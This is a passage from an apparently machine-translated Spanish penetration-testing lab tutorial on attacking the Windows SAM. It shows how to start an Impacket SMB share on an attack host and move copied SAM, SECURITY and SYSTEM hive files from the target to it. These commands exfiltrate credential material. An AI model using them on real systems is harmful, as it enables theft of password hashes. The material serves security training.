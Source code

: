 ### **Creación de una compartir con smbserver.py**

Todo lo que debemos hacer para crear el share es ejecutar smbserver.py -smb2support usando python, darle un nombre a compartir (`CompData`) y especifique el directorio en nuestro host de ataque donde la participación almacenará las copias de la colmena (`/home/ltnbob/Documents`). Saber que el`smb2support`La opción asegurará que se admitan versiones más nuevas de SMB. Si no usamos este indicador, habrá errores cuando se conectará desde el objetivo de Windows al compartir alojado en nuestro host de ataque. Las versiones más nuevas de Windows no admiten SMBV1 de forma predeterminada debido a la[numerosos vulnerabilitas severos](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1)y exploits disponibles públicamente.

Atacando a Sam

```
xnoxos@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Una vez que tenemos la parte de la participación en nuestro host de ataque, podemos usar el`move`Comando en el objetivo de Windows para mover las copias de la colmena a la acción.

### **Mover copias de colmena para compartir**

Atacando a Sam

```
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.

```

Luego podemos confirmar que nuestras copias de la colmena se trasladaron con éxito a la acción navegando al directorio compartido en nuestro host de ataque y usando`ls`Para enumerar los archivos.

### **Confirmando copias de colmena transferidas para atacar al anfitrión**

Atacando a Sam

```
xnoxos@htb[/htb]$ lssam.save  security.save  system.save

```

---